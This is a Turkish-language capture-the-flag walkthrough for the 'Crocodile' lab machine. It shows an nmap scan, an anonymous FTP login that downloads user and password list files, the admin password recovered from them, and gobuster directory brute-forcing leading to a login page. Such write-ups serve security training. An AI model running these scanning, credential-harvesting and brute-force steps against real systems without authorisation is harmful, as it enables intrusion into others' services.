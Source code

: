 # Crocodile

!!! info "Target IP Address"

    10.129.39.65

Hedef makine için Nmap taraması gerçekleştir:

```bash
sudo nmap 10.129.39.65 -p 21 -sV
```

```text title="Output" hl_lines="6 7"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-21 23:37 +03
Nmap scan report for 10.129.39.65
Host is up (0.38s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.34 seconds
```

Hedef makineye FTP bağlantısı gerçekleştir ve `anonymous` kullanıcısı olarak giriş yap:

```bash
ftp 10.129.39.65
```

FTP bağlantısı kurulduktan sonra `allowed.userlist` ve `allowed.userlist.passwd` dosyalarını sisteme indir.

Dosya içeriklerini görüntülersek `admin` kullanıcısının parolasını (`rKXM59ESxesUFHAd`) elde edebiliriz.

Gobuster ile dizin kaba kuvveti gerçekleştir:

```bash
gobuster dir -u 10.129.39.65 -x php -w /usr/share/dirb/wordlists/common.txt
```

```text title="Output" hl_lines="29"
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.39.65
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 276]
/.hta.php             (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htaccess.php        (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htpasswd.php        (Status: 403) [Size: 276]
/assets               (Status: 301) [Size: 311] [--> http://10.129.39.65/assets/]
/config.php           (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 308] [--> http://10.129.39.65/css/]
/dashboard            (Status: 301) [Size: 314] [--> http://10.129.39.65/dashboard/]
/fonts                (Status: 301) [Size: 310] [--> http://10.129.39.65/fonts/]
/index.html           (Status: 200) [Size: 58565]
/js                   (Status: 301) [Size: 307] [--> http://10.129.39.65/js/]
/login.php            (Status: 200) [Size: 1577]
/logout.php           (Status: 302) [Size: 0] [--> login.php]

...SNIP...
```

Elde edilen tüm bilgileri kullanarak [http://10.129.39.65/login.php](http://10.129.39.65/login.php) adresindeki giriş formunu doldur ve bayrağı ele geçir.
